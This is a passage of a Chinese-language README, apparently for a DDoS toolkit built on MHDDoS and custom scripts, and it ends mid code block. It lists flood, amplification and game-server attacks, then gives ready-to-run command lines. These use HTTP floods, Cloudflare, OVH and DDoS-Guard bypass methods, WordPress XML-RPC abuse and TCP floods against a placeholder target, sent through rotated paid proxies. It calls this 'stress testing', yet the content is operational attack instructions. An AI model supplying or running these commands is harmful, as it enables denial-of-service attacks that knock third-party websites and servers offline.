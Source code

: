 **Layer 4 攻击** (20+ 种):
- TCP/UDP/SYN/ICMP Flood
- 游戏协议攻击（Minecraft, FiveM, TeamSpeak, VSE）
- Amplification 攻击（DNS, NTP, Memcached, Chargen, CLDAP, ARD, RDP）

**工具集**:
- CFIP - CloudFlare 真实 IP 查找
- DNS Records 查询
- DSTAT - 流量监控

### 辅助工具（2个）

- **超高速筛选.py** - 多进程代理筛选（10-25倍速）
- **refresh_proxy.sh** - 付费代理自动刷新

---

## ⚡ 快速开始

### 3步开始测压

```bash
# 步骤1: 刷新代理
./refresh_proxy.sh

# 步骤2: 选择工具（推荐顺序）

# 方案A: 通用压测（推荐）
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# 方案B: Cloudflare绕过（高防护）⭐
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 方案C: 快速测试
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 30

# 方案D: MHDDoS 专用Bypass（OVH/DDoS Guard/Arvan等）
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# 方案E: Layer 4 攻击
python3 mhddos/start.py TCP 目标IP:端口 200 180

# 步骤3: 执行
# 直接运行上面选择的命令即可
```

### 🆕 MHDDoS 快速示例

```bash
# CloudFlare Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# OVH Bypass
python3 mhddos/start.py OVH 0 https://目标.com 200 proxy_paid.txt 100 180

# DDoS Guard Bypass
python3 mhddos/start.py DGB 0 https://目标.com 200 proxy_paid.txt 100 180

# WordPress攻击
python3 mhddos/start.py XMLRPC 0 https://目标.com/xmlrpc.php 200 proxy_paid.txt 100 180

# TCP Flood
python3 mhddos/start.py TCP 目标IP:端口 200 180

# Minecraft服务器
```